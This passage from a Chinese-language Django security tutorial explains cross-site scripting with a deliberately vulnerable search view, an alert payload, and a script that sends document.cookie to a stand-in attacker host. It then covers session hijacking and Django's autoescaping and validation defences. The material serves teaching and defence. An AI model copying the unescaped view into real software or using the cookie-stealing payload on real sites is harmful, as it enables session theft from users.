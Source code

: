 例如，让我们看一下一段有漏洞的代码，以及如何对其进行 XSS 攻击。强烈建议不要在任何形式中使用此代码：

```py
class XSSDemoView(View):
    def get(self, request):

        # WARNING: This code is insecure and prone to XSS attacks
        #          *** Do not use it!!! ***
        if 'q' in request.GET:
            return HttpResponse("Searched for: {}".format(
                    request.GET['q']))
        else:
            return HttpResponse("""<form method="get">
        <input type="text" name="q" placeholder="Search" value="">
        <button type="submit">Go</button>
        </form>""")
```

这是一个`View`类，当没有任何`GET`参数访问时，它会显示一个搜索表单。如果提交搜索表单，它会显示用户在表单中输入的搜索字符串。

现在在一个过时的浏览器（比如 IE 8）中打开这个视图，并在表单中输入以下搜索词并提交：

```py
<script>alert("pwned")</script>
```

毫不奇怪，浏览器将显示一个带有不祥消息的警报框。请注意，这种攻击在最新的 Webkit 浏览器（如 Chrome）中会失败，并在控制台中显示错误——**拒绝执行 JavaScript 脚本。在请求中找到脚本的源代码**。

如果你想知道一个简单的警报消息会造成什么伤害，记住任何 JavaScript 代码都可以以相同的方式执行。在最坏的情况下，用户的 Cookie 可以通过输入以下搜索词被发送到攻击者控制的站点：

```py
<script>var adr = 'http://lair.com/evil.php?stolen=' + escape(document.cookie);</script>
```

一旦您的 Cookie 被发送，攻击者可能会进行更严重的攻击。

## 为什么你的 Cookie 很有价值？

值得了解的是，为什么 Cookie 是几种攻击的目标。简而言之，访问 Cookie 允许攻击者冒充您，甚至控制您的网络帐户。

要详细了解这一点，您需要了解会话的概念。HTTP 是无状态的。无论是匿名用户还是经过身份验证的用户，Django 都会在一定时间内跟踪他们的活动，管理会话。

会话由客户端端（即浏览器）的“会话 ID”和服务器端存储的类似字典的对象组成。“会话 ID”是一个随机的 32 个字符的字符串，存储为浏览器中的 Cookie。每当用户向网站发出请求时，包括这个“会话 ID”在内的所有 Cookie 都会随请求一起发送。

在服务器端，Django 维护一个会话存储，将此`会话 ID`映射到会话数据。默认情况下，Django 将会话数据存储在`django_session`数据库表中。

用户成功登录后，会话将记录身份验证成功并跟踪用户。因此，cookie 成为后续交易的临时用户身份验证。任何获得此 cookie 的人都可以使用该 Web 应用程序作为该用户，这称为**会话劫持**。

### Django 如何帮助

您可能已经注意到，我的示例是 Django 中实现视图的一种非常不寻常的方式，原因有两个：它没有使用模板进行渲染，也没有使用表单类。它们都有防止 XSS 的措施。

默认情况下，Django 模板会自动转义 HTML 特殊字符。因此，如果您在模板中显示搜索字符串，所有标记都将被 HTML 编码。这使得无法注入脚本，除非您通过将内容标记为安全来明确关闭它们。

在 Django 中使用表单来验证和清理输入也是一种非常有效的对策。例如，如果您的应用程序需要数字员工 ID，则使用`IntegerField`类而不是更宽松的`CharField`类。

在我们的示例中，我们可以在搜索词字段中使用`RegexValidator`类，以限制用户只能使用您的搜索模块识别的字母数字字符和允许的标点符号。尽可能严格地限制用户输入的可接受范围。
